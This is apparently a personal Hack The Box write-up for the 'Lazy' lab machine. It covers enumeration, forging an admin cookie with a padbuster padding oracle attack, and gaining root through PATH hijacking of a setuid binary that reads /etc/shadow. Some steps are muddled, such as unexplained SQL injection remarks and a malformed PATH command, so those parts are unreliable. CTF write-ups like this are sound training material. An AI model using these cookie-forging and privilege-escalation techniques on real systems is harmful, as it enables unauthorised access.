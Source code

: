 ![logo](/logo.png)

# [LAZY- BOX]  
Hi folks, today I am going to solve an medium rated hack the box machine which was released on 03 May 2017 as the 14th machine on HTB,Lazy created by [trickster0](https://app.hackthebox.com/users/169).So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *Joomla
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/lazy 10.10.10.18
```

###### Output 

![](/Linux/Linux-Medium/Lazy/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/lazy 10.10.10.18                                     ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-18 06:52 EAT
Nmap scan report for 10.10.10.18
Host is up (0.31s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 e1:92:1b:48:f8:9b:63:96:d4:e5:7a:40:5f:a4:c8:33 (DSA)
|   2048 af:a0:0f:26:cd:1a:b5:1f:a7:ec:40:94:ef:3c:81:5f (RSA)
|   256 11:a3:2f:25:73:67:af:70:18:56:fe:a2:e3:54:81:e8 (ECDSA)
|_  256 96:81:9c:f4:b7:bc:1a:73:05:ea:ba:41:35:a4:66:b7 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: CompanyDev
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.49 seconds
```

looking at the results  we find out that there are 2 ports open and its a `Ubuntu`and its running an `Apache httpd 2.4.7`. 

port[22]-ssh
port[80]-http

when we naviagate to [http://10.10.10.18](http://10.10.10.18)  we find a page for a `decvompany`

![](/Linux/Linux-Medium/Lazy/Screenshots/defaultpage.png)

we find nothing of intreast on the page so lets try enumerate directories with `gobuster`

![](/Linux/Linux-Medium/Lazy/Screenshots/gobuster.png)

There are a few PHP files, and they all seem to be a part of the same application. The best place
to start appears to be the login and register pages, as the other files provide no useful
functionality or information when viewed.

I had registred an account so lets open burp and capture the request when loging in 

![](/Linux/Linux-Medium/Lazy/Screenshots/logiin.png)

we see that it sets a cookie in `auth:...` 

![](/Linux/Linux-Medium/Lazy/Screenshots/burpsuite.png)

so lets send this request to `sequencer` so that we can analyze if the cookie keeps changing or repeating the same cookies.The only cookie created by the server is the auth cookie, which appears as `auth=7%2FDQjMk33vAm4Mc4ifWeO3m5Bl3Lf5al`

![](/Linux/Linux-Medium/Lazy/Screenshots/sequencer.png)

After doing the sequencer we now go back to check if we have an Sql injection by using the admin to see it is a user in the system.

![](/Linux/Linux-Medium/Lazy/Screenshots/admin.png)

so we know admin exists so lets try register `admin` again with some sql injection so that we can see if admin is logged in because of bad serialization.But first we can be able to do a `padbuster` 

```sh
padbuster http://10.10.10.18 7%2FDQjMk33vAm4Mc4ifWeO3m5Bl3Lf5al 8 -cookies auth=7%2FDQjMk33vAm4Mc4ifWeO3m5Bl3Lf5al -encoding 0 
```

![](/Linux/Linux-Medium/Lazy/Screenshots/padding.png)

Running a padding oracle attack against the target with padbuster reveals the target is indeed
vulnerable. The output reveals the username, which is stored client-side. This can be easily
exploited.

![](/Linux/Linux-Medium/Lazy/Screenshots/padd.png)

![](/Linux/Linux-Medium/Lazy/Screenshots/padbuster.png)


Knowing that a padding oracle attack can be used against this target, it is possible to encrypt
user supplied data with the same method. In this case, encrypting `user=admin` will produce a
valid` auth cookie`. 

```sh
padbuster http://10.10.10.18 7%2FDQjMk33vAm4Mc4ifWeO3m5Bl3Lf5al 8 -cookies auth=7%2FDQjMk33vAm4Mc4ifWeO3m5Bl3Lf5al -encoding 0 -plaintext user=admin
```

trying to register admin with `admin==` we are logged in as an admin

![](/Linux/Linux-Medium/Lazy/Screenshots/joomla.png)

we find out that that is the ssh key for `mitsos`  so let use it to login

![](Linux/Linux-Medium/Lazy/Screenshots/shell.png)

we can now find the user flag 

![](/Linux/Linux-Medium/Lazy/Screenshots/flag.png)

# Privillage Escalation

After gaining entry to the target via SSH (and grabbing the user flag at `/home/mitsos/user.txt`,
the next step is to observe the backup binary available in the user’s home directory. 

![](/Linux/Linux-Medium/Lazy/Screenshots/backup.png)

A quickglimpse shows that it has sticky bits set, which will run it as the root user. Running strings against the binary shows that it executes the command `cat /etc/shadow`

![](/Linux/Linux-Medium/Lazy/Screenshots/strings.png)

Because a full path to the cat binary is not specified, this specific command is vulnerable to
hijacking by modifying the PATH system variable. This can be achieved by setting the working
directory as the first option in `PATH`, with the command export `PATH=.:$PATH`

```sh
echo PATH= `pwd`:PATH
```

cat file is just a simple shell

```sh
#!/bin/sh

/bin/sh
```

![](Linux/Linux-Medium/Lazy/Screenshots/pwd.png)

and because we modified cat so we are to use less to get the root flag.

	-------------------------END successful attack @lesley----------------------